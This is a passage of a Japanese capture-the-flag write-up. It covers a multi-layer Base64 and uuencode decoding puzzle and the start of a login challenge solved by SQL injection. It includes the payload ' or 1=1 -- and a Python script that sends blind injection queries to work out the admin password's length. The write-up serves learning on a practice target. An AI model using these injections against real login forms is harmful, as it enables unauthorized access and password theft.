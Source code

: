 OnionといえばTorだが、Torみたいに何重にも暗号化されているということかな？

文字列の並び的にBase64っぽいし、Base64で16回デコードしたら、こんな文字列が、

```
begin 666 <data>
51DQ!1U]&94QG4#-3:4%797I74$AU
 
end
```

begin 666 で調べたら、Base64の一つ前の形式であるuuencodeなるものらしい。

下記サイトを使って、デコードしてFLAGを得ることができました。

[uuencode方式エンコード、デコード変換](https://www.motohasi.net/Misc/UUConv.php)

こうやって、いろんな形式のエンコードやデコードをするサイトを提供してくれる方には感謝しかないですね。

---

## Q6 「 Login」

![ksnctf-q6.png](ksnctf-q6.png)

早速、URL先に飛びました。

「First, login as "admin".」ということで、見るからにSQLインジェクションですね。

ということで初っ端から、

`ID：admin , Pass：' or 1=1 --`  を入力してみました。

すると、「Congratulations!　It's too easy?　Don't worry.　The flag is admin's password.」 と言われました。

adminのパスワードがFlagのようですね。

手順として、下記を考えました。

1. adminのパスワードの文字列を特定 
2. adminのパスワードを一文字目から一文字ずつ特定

ということで、まず一つ目の手順を達するためにコードを書きました。

- adminのパスワードの文字数を確認
```Python
import requests

url = 'https://ctfq.u1tramarine.blue/q6/'

# 文字数を確認
for i in range(30):
    sql = f"' or (SELECT LENGTH(pass) FROM user WHERE id = 'admin') = {i} --"
    print(sql)
    data = {"id": "admin", "pass": sql}
    response = requests.post(url,data=data)
    if 'Congratulations' in response.text:
        print("文字列 → " + str(i))
        break
```
